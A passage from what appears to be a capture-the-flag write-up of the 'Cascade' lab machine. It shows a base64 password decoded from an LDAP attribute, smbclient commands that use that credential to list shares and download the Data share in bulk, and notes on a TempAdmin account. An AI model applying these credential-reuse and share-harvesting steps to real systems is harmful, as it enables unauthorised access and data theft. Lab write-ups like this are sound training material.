 From the LDAP enumeration i saw an attribute that stood out "cascadeLegacyPwd" wich seems to be a base64 encoded password.
By decoding that string i got possible credentials for the user r.thompson, using this credentials to enumerate SMB will be my next step. 

~~~
kali@kali:~$ smbclient -L //10.10.10.182/ -U "r.thompson%rY4n5eva"

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 



kali@kali:~$ smbclient -H //10.10.10.182/Data -U "r.thompson%rY4n5eva"
smb:\> prompt off
smb:\> recurse on
smb:\> mget *
~~~
# User
{: .language-bash}
When browsing the files locally two files caught my interest

~~~
kali@kali:~$ ls -laR

  ./Temp/s.smith:
total 12
drwxr-xr-x 2 kali kali 4096 Jul 16 16:16  .
drwxr-xr-x 4 kali kali 4096 Jul 16 16:16  ..
-rw-r--r-- 1 kali kali 2680 Jul 17 15:44 'VNC Install.reg'

'./Email Archives':
total 12
drwxr-xr-x 2 kali kali 4096 Jul 16 16:16 .
drwxr-xr-x 6 kali kali 4096 Jul 16 16:16 ..
-rw-r--r-- 1 kali kali 2522 Jul 17 15:44 Meeting_Notes_June_2018.html
~~~
{: .language-bash}
The email containing meeting notes mentions a TempAdmin account used for a network migration, using the same password as the standard Administrator account

![Email](https://jackhack.se/assets/images/cascade/email.png)
{: .full}
